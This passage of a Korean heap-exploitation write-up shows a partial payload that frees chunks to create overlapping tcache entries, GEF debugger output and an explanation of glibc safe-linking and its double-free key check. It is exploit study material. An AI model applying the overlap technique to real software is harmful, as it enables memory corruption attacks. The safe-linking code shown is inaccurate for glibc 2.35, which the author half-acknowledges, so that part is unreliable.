 ``` python

    # free XXXXXXXXX440, XXXXXXXXX470
    del_clipboard(s, 2)
    del_clipboard(s, 1)
```
위와 같이 payload를 작성하고 코드를 실행하고 tcache에서 사이즈 `0x30`, `0x100` bin을 확인해보면 다음과 같다.
``` bash
─────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x555555559440, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
                                      ←  Chunk(addr=0x555555559470, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
Tcachebins[idx=14, size=0x100, count=1] ←  Chunk(addr=0x555555559400, size=0x100, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
이렇게 `0x555555559400` 영역이 `0x555555559440`, `0x555555559470` 영역과 겹치게 되기 때문에 `0xf0`짜리 chunk를 요청하면 `0x555555559440`의 `fd`를 overwrite할 수 있다.

### Safe linking bypass
그런데 이 때 `0x555555559440`과 `0x555555559470`의 `fd`를 확인해보면 단순히 다음 chunk의 주소를 저장하지 않는데, 이는 tcache의 safe linking 때문이다.
``` bash
gef➤  x/6gx 0x555555559440 - 0x10
0x555555559430: 0x0000000000000000      0x0000000000000031
0x555555559440: 0x000055500000c129      0x62cde40f9bbc5877
0x555555559450: 0x4646464646464646      0x4646464646464646
gef➤  x/6gx 0x555555559470 - 0x10
0x555555559460: 0x0000000000000000      0x0000000000000031
0x555555559470: 0x0000000555555559      0x62cde40f9bbc5877
0x555555559480: 0x4747474747474747      0x4747474747474747
```
공부한김에 간략하게 정리하자면 glibc 2.32버전부터 `free`된 chunk는 다음과 같은 구조를 가지게 된다.
``` c
struct tcache_entry {
    struct tcache_entry *next;
    /* This field exists to detect double frees.  */
    struct tcache_perthread_struct *key;
};
```
위 메모리에서 `0x62cde40f9bbc5877`로 출력된 것이 `key`인데, 다음과 같은 로직을 통해 double free를 방지한다.

1. `free(ptr)`을 했을 때,
2. `ptr->key`에 제대로 된 `key`값이 있는지 검증
  - 없다면 `abort`
3. 제대로 된 `key` 값이 있다면, `ptr`의 `size`에 맞는 tcache bin을 순회
  - `ptr`이 bin에 있다면 `abort`

문제는 `next`인데, glibc 버전에 따라 다르겠지만 2.35의 경우 포인터 마스킹 또는 포인터 암호화 기법이 적용되어서 다음 연산을 하고 저장한다.
``` c
// Encryption
entry->next = (tcache_entry *) ((uintptr_t) next ^ (uintptr_t) tcache);

// Decryption
tcache_entry *next = (tcache_entry *) ((uintptr_t) e->next ^ (uintptr_t) tcache);
```
여기에서 `tcache` 값은 `tcache_perthread_struct`의 주소라고 하는데... 실제 메모리와 다른 것 같아서 2.35 glibc 소스코드를 elixir에서 찾아보았는데 뭔가 안맞는 것 같아 확인이 필요하다.
